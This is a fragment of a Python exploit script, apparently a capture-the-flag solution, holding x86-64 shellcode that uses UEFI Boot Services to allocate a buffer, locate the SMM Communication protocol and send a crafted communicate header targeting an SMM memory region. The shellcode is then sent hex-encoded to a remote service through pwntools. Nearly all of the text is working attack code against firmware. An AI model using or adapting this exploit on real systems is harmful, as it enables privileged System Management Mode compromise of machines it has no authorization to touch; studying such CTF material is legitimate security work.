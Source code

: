 ```python
f"""
/* Get AllocPool() addr */
mov rax, {addr_system_table + offset_BS}
mov rax, qword ptr [rax]
mov rax, qword ptr [rax + {offset_AllocPool}]

/* AllocPool(enum_EfiRuntimeServicesData, 0x20, buffer) */
mov rcx, {enum_EfiRuntimeServicesData}
mov rdx, 0x20
lea r8, qword ptr [rip + buffer]
call rax
test rax, rax
jnz fail

/* Copy header data to valid buffer */
/* (memcpy(*buffer, efi_smm_comminucate_hdr, 0x20) */
lea rsi, qword ptr [rip + efi_smm_comminucate_hdr]
mov rdi, qword ptr [rip + buffer]
mov rcx, 0x20
cld
rep movsb

/* Get LocateProtocol() addr */
mov rax, {addr_system_table + offset_BS}
mov rax, qword ptr [rax]
mov rax, qword ptr [rax + {offset_LocateFunc}]

/* LocateProtocol(&protocol_guid, NULL, &protocol_buff) */
lea rcx, qword ptr [rip + protocol_guid]
xor rdx, rdx
lea r8, qword ptr [rip + protocol_buff]
call rax
mov rbx, qword ptr [rip + protocol_buff]
test rax, rax
jnz fail

/* Communicate(&mSmmCommunication, &buffer, NULL) */
mov rcx, qword ptr [rip + protocol_buff]
mov rax, qword ptr [rcx]
mov rdx, qword ptr [rip + buffer]
xor r8, r8
call rax
test rax, rax
jnz fail
ret

fail:
    ud2

protocol_guid: .long 0xc68ed8e2, 0x4cbd9dc6, 0x65db949d, 0x32c3c5ac
protocol_buff: .long 0
dummy: .fill 5,1,0
efi_smm_comminucate_hdr:
    .long 0x9a75cf12, 0x4d102c83, 0x7535a8b5, 0xf7926554
    .quad 8
    .quad {addr_region_4}
buffer: .long 0
""")

r.sendline(sc.hex())
r.sendline('done')

r.interactive()
```